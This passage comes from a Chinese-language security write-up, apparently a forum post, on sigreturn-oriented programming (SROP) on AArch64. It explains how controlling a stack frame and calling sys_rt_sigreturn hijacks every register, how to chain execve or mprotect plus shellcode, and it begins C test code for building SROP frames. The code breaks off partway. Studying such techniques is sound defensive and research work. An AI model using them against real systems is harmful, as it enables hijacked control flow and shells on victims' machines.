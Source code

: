 ```
   0xffffa0c65860:        svc     #0x0                            //d4000001

```

这也就意味着只要**攻击者控制了当前栈帧并执行一个 sys_rt_sigreturn 后，既可以控制当前用户态的所有通用硬件寄存器，**包括:

*   R0-R29: 即攻击者可以控制所有参数
*   R30: 即攻击者可以控制后续的函数返回地址
*   PC: 即攻击者可以控制 sys_rt_sigreturn 返回的地址
*   SP: 即攻击者可以控制返回后的栈帧

  简单说 **sigreturn 实际上就是一个能力极其强大的 gadget，其可以完成任何参数设置，控制流转移，返回地址设置，堆栈指针修改操作**。且由于 sigreturn 中本身就存在一条 svc 指令，攻击者同时还可以复用此 gadget 执行**一次** execve 来获取本地 shell。利用 SROP 执行 execve 的流程如下图:

![](https://bbs.pediy.com/upload/attach/202201/490870_DCKHHZWXWTAYKXS.jpg)

  但需要注意的是**如果使用 SROP 来 chain 多个系统调用时，则还需一个额外的 syscall& ret; gadget,** 这是因为 __kernel_rt_sigreturn 中虽然有一个可用的 svc 指令，但其后面通常没有 ret 指令，因此此 svc 指令其不能用来链接 gadget chain。 如当攻击者需要执行如 mprotect + shellcode 时, 则需要找到一个 svc 0; ret; 指令序列来确保 mprotect 系统调用执行完毕后会有一条 ret 指令可以返回到 sigreturn 设置的 lr 寄存器位置。以下代码可用来简单测试 SROP 和基于 SROP 的 syscall chain:

```
#include  #include  #include  #include  #include  #include  #include  #include  #include  #include  /* rt_sigreturn check if sp is 16 byte aligned */
#define _ROUND_UP(x,n) (((x)+(n)-1u) & ~((n)-1u))
#define ROUND_UP(x) _ROUND_UP(x,16LL)
#define ROUND_DOWN(x) ((x) & (~((16LL)-1)))
 
struct sigframe
{
    siginfo_t info;
    struct ucontext uc;
};
 
struct sigframe g_backup; /* used to stuff new sigframe */
void * sigreturn_addr;        /* address of sigreturn */
void * syscall_ret_addr;  /* address of a gadget has syscall with ret insn to chain next directive */
void syscall_ret(void)
{
    asm("svc 0\n\t" :::); /* simpliy emulate a syscall with ret*/
}
 
void action(int signo, siginfo_t *info, void *ctx)
{
    /* check struct size match */
    struct sigframe *sf = (void *)info;
    if(&sf->uc != ctx) {
        printf("[-] sigframe struct size mismatch\n");
        exit(0);
    }
 
    sigreturn_addr = __builtin_return_address(0);     /* get sigreturn address */
    g_backup.info = *info;
    g_backup.uc = *(struct ucontext *)ctx;
 
    return;
}
 
void get_sys_from_signal(void)
{
    struct sigaction act;
    sigset_t set, oldset;
 
    act.sa_sigaction = action;
```